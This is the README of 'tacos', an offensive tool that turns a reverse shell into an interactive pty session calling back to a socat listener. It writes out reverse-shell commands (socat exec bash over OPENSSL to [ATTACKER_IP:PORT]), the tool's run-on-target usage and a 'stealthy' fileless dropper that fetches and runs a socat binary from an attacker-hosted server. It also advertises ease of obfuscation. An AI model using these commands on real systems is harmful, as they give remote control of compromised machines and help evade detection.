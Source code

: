 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform (to do) 


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lhost [ATTACKER_IP] --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]:[ATTACKER_PORT]       # or .\tacos.exe [ATTACKER_IP]:[ATTACKER_PORT] for windows
# 💥
```
### With container

```shell
docker --net host --rm -it taco [LISTENING_IP] [LISTENING_PORT]

## Install

### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

## Alternative

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
get-static socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```
